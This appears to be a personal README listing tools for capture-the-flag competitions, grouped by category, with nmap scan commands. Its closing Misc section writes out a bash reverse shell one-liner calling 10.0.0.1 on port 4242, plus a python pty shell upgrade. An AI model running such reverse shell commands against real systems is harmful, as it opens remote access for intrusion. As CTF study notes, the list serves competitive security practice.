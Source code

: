 # CTF Tool list

This repo is intended to serve as a list of tools that I've found useful during CTFs and any notes that I've got to go with them.

## Discovery

##### Nmap
`nmap -sC -sV <target>`
`nmap -p- <target>`


##### wfuzz

##### Gobuster

## Web

Looks for `sitemap.xml` or `robots.txt`



##### Burpsuite
##### SQLMap


## Cracking

##### John the ripper
##### Hydra
##### PadBuster
Used to execute and oracle padding attack

## pwn

##### pwntools
##### ROP Gadet

## Forensics

##### strings
##### Foremost
##### Bin Walk

## Steg

##### Exiftool
##### Stegsolve
##### Steg Crack
##### Steg Hide
##### zsteg
##### jsteg

## Reversing

##### Radare
##### readelf
##### checksec
##### angr
##### z3

## Misc

`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
`python -c 'import pty; pty.spawn("/bin/sh")'`
`stty raw -echo`